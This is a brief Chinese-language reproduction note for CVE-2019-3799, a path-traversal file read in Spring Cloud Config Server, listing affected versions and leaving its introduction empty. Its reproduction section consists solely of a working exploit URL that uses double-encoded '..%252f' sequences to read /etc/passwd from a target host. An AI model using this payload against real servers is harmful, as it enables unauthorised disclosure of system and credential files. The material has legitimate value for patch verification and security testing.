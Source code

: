 ```yaml
---
title: （CVE-2019-3799）Spring Cloud Config Server 任意文件读取
id: zhfly3134
---
```


# （CVE-2019-3799）Spring Cloud Config Server 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如Spring Cloud Config1.3及其以下版本）

## 三、复现过程

```
http://www.0-sec.org/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd 
```